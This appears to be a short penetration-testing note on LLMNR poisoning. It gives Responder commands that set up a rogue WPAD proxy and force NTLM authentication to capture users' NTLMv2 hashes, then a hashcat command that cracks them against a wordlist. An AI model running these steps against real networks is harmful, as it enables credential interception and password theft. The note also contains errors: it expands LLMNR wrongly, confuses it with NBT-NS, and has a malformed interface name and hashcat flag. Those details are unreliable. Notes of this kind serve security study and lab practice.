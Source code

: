 
**LLMNR** (Link Local Multitask Name Resolution) is used to identify hosts when DNS fails to do so in a network. Previously *also known as NBT-NS*

The flaw in this protocol is, it uses the user's username and the NTLMv2 hash which can be exploited by a Man in the Middle Attack.

![[LLMNR Poisoning.png]]

1. First we can use a tool like responder to listen to LLMNR messages in a network. 
   
```bash
sudo responder -I tunO -dwP
```

`-d`: Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.  
`-w`: Start the WPAD rogue proxy server. Default value is False
`-P`: Force NTLM (transparently)/Basic (prompt) authentication for the proxy. WPAD doesn't need to be ON. This option is highly effective. Default: False

![[LLMNR Responder Output.png]]

2. Once a request is made, the responder can catch it with the username of the client along their NTLM hash.
  ![[LLMNR Event.png]]
  
3. If the password the user has set is weak, we can use a tool like `hashcat` to crack the password. eg:  
   
```bash
hashcat —m 5600 hashes.txt rockyou.txt
```
   ![[LLMNR Hash Crack.png]]
   

